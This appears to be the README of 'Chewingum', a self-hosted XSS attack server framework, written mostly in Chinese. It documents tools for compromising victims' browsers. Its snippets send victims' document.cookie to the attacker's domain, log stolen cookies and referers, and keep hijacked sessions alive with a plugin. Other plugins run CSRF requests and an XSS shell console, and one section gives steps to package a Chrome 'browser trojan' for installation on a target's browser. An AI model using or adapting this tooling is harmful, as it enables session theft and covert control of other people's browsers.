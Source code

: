 # Chewingum [alpha][0.2][1140214]

Name
----
**chewingum - individual XSS server framework**

Startup
-------
    python ./config.py install [ domain salt filekeyPath | -h ]
    python ./chewingum.py [ -h | host port debug ]

Dependencies
------------
* [Bottle - 0.11](http://bottlepy.org/)
* [Bottle-websocket](https://github.com/zeekay/bottle-websocket)
* [GeventWebSocketServer](http://sdiehl.github.io/gevent-tutorial/)


  unnecessaries
  -------------
    * [Beaker](http://beaker.rtfd.org/)

Reference
---------
* (Gum.js) - [xss.js](http://zone.wooyun.org/content/2113)
           - [BeEF](http://beefproject.com/)

Helptext
--------

1.login
>   采用filekey验证, 上传filekey或输入URL便可登录.

2.server
>   server处代码会直接在项目触发时执行,
    最终会将变量serverinfo和变量browserinfo保存至数据库,
    格式需为json/dict格式
        {'name':'value'}
    如:
        serverinfo = {
		    'referer':b64encode(str(request.headers.get('Referer'))),
    		'ctime':b64encode(str(ctime()))
	    }
    	browserinfo = {
    		'cookie':b64encode(str(request.forms.get('cookie')))
	    }

3.server code keyword
>   iferror
	对变量iferror赋值, 会触发对应错误.
	如:
		iferror = 404

>	returns
	对变量returns赋值，在iferror为空的情况下, 会返回对其赋值的内容.
	如:
		returns = '<script>alert(1)</script>'

>   gum.backinfo
    客户端的关键字，是一个字典，默认用来暂时记录返回的信息。
    当返回之后最好清空它。
        gum.backinfo = {};

4.project name and object name
>	project 的项目名需是xss触发处的url或是domain.
		$default是默认项目, xss触发时若未发现对应项目则按照此配置进行.

+	object 的项目名可随意更改.

5.plugins
>	可以这样导入server扩展,
		with open('./plus/get_info.py') as files: exec files.read()
    也可以这样
        from plus.email_remind import send_mail
        send_mail(gum_emailremind)
    具体看扩展的写法

>	可以这样导入browser插件,
		gum.script('http://' + gum.domain + '/static/plus/tool_boomerang.js')

>	这样给browser插件传参,
		gum_boomerang = {
			'object_url':'http://localhost/xss',
			'post':{'xss':'yes', 'csrf':'no'},
			'eval':function(){alert(1)}
		}

>	同样的方法给server扩展传参,
		gum_keepsession = {
			'url':referer,
			'session':cookie,
			'data':{'a':'b'},
			'frequency':300,
			'endate':'2013-12-12 15:17:00'
		}

6.set code
>	这样发送browser info,
		gum.post('http://' + gum.domain + '/ing', {'cookie':document.cookie})

>	单次接收browser info可以参考上面的2.server
    也可以这样
        browserinfo['infoname'] = b64encode(str(request.forms.get('infoname')))

>	多次接收browser info可以像这样,
		info_cookie = str(request.forms.get('cookie'))
		sessionid[referer][1]['cookie'] = info_cookie
		browserinfo = b64encode(sessionid.get(referer))

+		不推荐使用多次接收，默认已关闭。

7.other
>	使用基本探针:

>	server:
		with open('./plus/get_info.py') as files: exec files.read()

>	browser:
		gum.script('http://' + gum.domain + '/static/plus/get_info.js', function(){
            gum.post('http://' + gum.domain + '/ing', gum.backinfo);
            gum.backinfo = {};
        })

8.console
>   尚在测试阶段。
    javascript文件在
        ./static/plus/onexsshell.js

9.browser trojan
>   chrome
    修改./trojan/chrome/gum.js中的{{domain}}为你的chewingum的域名及端口
    使用chrome or chromium打包
    安装在目标的浏览器后，使用console即可操作目标浏览器。

+   尚在测试阶段
